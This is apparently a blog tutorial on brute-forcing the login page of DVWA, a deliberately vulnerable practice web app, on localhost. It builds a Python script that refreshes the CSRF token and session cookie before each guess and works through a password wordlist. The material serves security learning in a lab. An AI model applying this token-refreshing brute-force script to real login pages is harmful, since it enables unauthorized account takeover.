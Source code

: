 ```yaml
---
title: Brute forcing DVWA's initial login page 
slug: brute-forcing-dvwas-initial-login-page 
date: 2022-09-17 
updated_at: 2022-09-17 
description: "Although it is quite easy to see write-ups for the DVWA's brute force login challenge. Hacking its actual login page may bring up some challenges for newcomers. Let's understand why and how to circumvent it"
---
```


Although it is quite easy to find write-ups for the DVWA's brute force login challenge. Hacking its actual login page may bring up some challenges for newcomers. Let's understand why and how to circumvent it!

[Damn Vulnerable Web App, also known as DVWA](https://github.com/digininja/DVWA), is a PHP/MySQL web application that is purposefully vulnerable, as the name suggests, to be hacked, tested, and serves as a learning playground for people that want to practice their security skills in a legal environment.

When we set up our DVWA server (in this case, I preferred using a docker image to host it for me), and do an initial reset database it will set up and show the default credentials for us: username `admin` and password `password`, pretty common default credentials for a web server, right? However, if we could not hack, automate, and find our own way to the system, how fun would it be?

So, this is the first thing we see when we access our DVWA page:
![DVWA Login Page](/blog/assets/DVWA-Login-Page.png)

First things first, let's try to grasp this page and see if we can grab any hints that we could use, for it let's check the network tab as well. You can use another proxy to intercept requests too if you prefer.

![Highlighted requests](/blog/assets/highlighted-requests.png)

As you can see, I've highlighted some things in the image above. The request highlighted in blue is the POST request we just made trying to log in. After that, the server processes the request and redirects us to `login.php` as we can see in the red highlight, with a message of "Login failed", as shown in the yellow highlight on the left. Let's copy the post request as a [cURL](https://curl.se/) command and see how it is formed. 

![Copy request as cURL command](/blog/assets/copy-as-curl.png)

Although cURL commands are pretty useful, I don't find them easy to read, so let's transform it into a Python request and see how it looks. For that, we can use the [cURL converter website](https://curlconverter.com/python/) to do the job for us and its output will look something like this:

```python
import requests

cookies = {
    'PHPSESSID': 'fmpdptokjk1ogvashj9j5usdn4',
    'security': 'low',
}

headers = {
    ...
}

data = {
    'username': 'teste',
    'password': '123',
    'Login': 'Login',
    'user_token': 'e877712995a1d2bbae4c622fff7f9b9a',
}

response = requests.post('http://localhost/login.php', cookies=cookies, headers=headers, data=data)
```

Here we can see a few interesting things in the request we made:  a cookie called `PHPSESSID ` and a parameter called `user_token`, if we try to refresh the page and log in again we'll see that both of them will have new values. `PHPSESSID` is a PHP way of setting a session cookie and `user_token` looks like a [CSRF Token](https://portswigger.net/web-security/csrf/tokens), a unique, unpredictable value that the server uses to validate the given request and properly process it if valid. Let's see what happens if we make a few requests without changing its value:

```python
for _ in range(1, 3):
    response = requests.post('http://localhost/login.php', cookies=cookies, headers=headers, data=data)
    print(response.content)
    print("==============")
```

The output we have is:

![Print screen of the invalid CSRF output](/blog/assets/invalid-csrf-token.png)

After the first request, you'll probably see we have a `CSRF token is incorrect` message within its body content, so this confirms our theory! So what can we do to get around it and be able to automatize our requests? 

First of all, we've already seen that every time we load the page a new token is generated for us, we can use that for getting a new token before every new request we make, so let's try making a `GET` request and see what we get.

```python
response = requests.get('http://localhost/login.php')

print(response.content.decode('UTF-8'))
```

And we'll get a tag like this within our response:

```html
<input type=\'hidden\' name=\'user_token\' value=\'faaf19846a466a9f328f2a43a06cfdb6\' />
```

So we can probably extract that using a [regex](https://en.wikipedia.org/wiki/Regular_expression). Let's try that

```python
def get_user_token(body):
    return re.search("user_token\\\' value=\\\'(.+)\\\'", body).group(1)
```

Let's also get the `PHPSESSID` cookie, since we're already getting data from the new request. It is in the Headers, however, we can do it a little bit easier than the token.

```python
def get_phpsessid(headers):
    return headers['Set-Cookie'].split(';')[0].split('=')[1]
```

And wrap up everything into a single function

```python
def set_request_tokens():
    response = requests.get('http://localhost/login.php')
    cookies['PHPSESSID'] = get_phpsessid(headers=response.headers)
    data['user_token'] = get_user_token(body=response.content.decode('UTF-8'))
```

Let's set a small wordlist of passwords so we can test if we find a successful login.

```python
PASSWORDS = [
    "teste",
    "admin",
    "password",
    "tentativa",
    "aloha",
    "ihuuuu",
    "qwerty",
    "qw12er34ty56"
]
```

so, just to finish our little script, let's build the last function to do the dirty work for us.

```python
def brute_force():
    for i in PASSWORDS:
        set_request_tokens()
        data['password'] = i
        response = requests.post('http://localhost/login.php', cookies=cookies, headers=headers, data=data)
        
        if 'Login failed' in response.content.decode('UTF-8'):
            continue

        print("=================")
        print("Successful Login!")
        print("Credential Found:")
        print(f"- Username: {data['username']}")
        print(f"- Password: {data['password']}")
        print("=================")
```

This function iterates over the PASSWORDS list we've defined earlier, sets the tokens we need for every new request, and, finally, does the request. After that, we check if there's a `Login failed` message within the response content to see if we succeeded or not and then print out the credentials found. The final output will look like this:

![Script output Result](/blog/assets/script-output.png)

## Conclusion

And that will be it! Although it's a very simple hacking problem, some people might run into trouble dealing with those tokens and not understand what's going on. Especially when we try to use tools such as Burp Suite or [THC-Hydra](https://github.com/vanhauser-thc/thc-hydra) for brute forcing it, since the results may not be consistent if not set up correctly. You can find the whole script in my [Github](https://github.com/davidpalves/writeups/blob/main/dvwa/dvwa-login.py).

Feel free to comment below with any questions, suggestions, or relevant points you might have!
